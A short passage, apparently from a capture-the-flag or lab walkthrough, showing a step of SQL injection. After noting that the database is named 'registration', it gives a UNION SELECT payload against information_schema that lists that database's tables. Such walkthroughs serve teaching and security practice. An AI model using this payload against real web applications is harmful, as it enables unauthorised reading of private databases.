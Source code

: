 ![Untitled](images/Untitled%2015.png)

The database name is `registration`. Let’s see the tables of that database:

`' UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'registration' -- -`
